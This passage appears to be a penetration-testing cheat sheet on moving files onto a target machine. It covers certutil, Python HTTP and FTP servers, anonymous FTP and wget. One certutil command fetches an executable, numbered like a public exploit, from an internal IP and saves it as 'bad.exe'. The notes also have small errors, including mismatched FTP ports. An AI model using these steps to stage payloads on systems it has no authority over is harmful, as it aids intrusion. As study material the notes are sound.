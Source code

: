 - [ ] Certutil (Client)

```powershell
$ certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe
```

**Note :** The space in between `40564.exe` and `bad.exe` is what the file we be named after download, in this case it is `bad.exe`

- [ ] HTTP (Server)

```powershell
# Python2
$ python -m SimpleHTTPServer 80

# Python3
$ python3 -m http.server 80
```

- [ ] Browser (Client)
	- If we have a python server hosting a file and we do have RDP on a client machine, we can navigate directly to the file by specifying the IP-ADDRESS of this server

- [ ] FTP

```powershell
# On Sender machine run this
$ python -m pyftpdlib 21

# On the receiver machine run this
ftp <SENDER-IP-ADDRESS> 2121
```

**Note :** Make sure to install the **pyftpdlib** module with `pip3 install pyftpdlib` , Also the receiver can either be a Windows or Linux client.
#### **Example**

![](https://i.imgur.com/qups1Lw.png)

You can log in with the username `Anonymous` and then when asked for a password hit **Enter** , Then do `ls` and use the `mget` command followed by the file you want to download.

- [ ] Linux
	- wget 

```powershell
$ wget <SENDER-IP-ADDR>/file/to/download
```

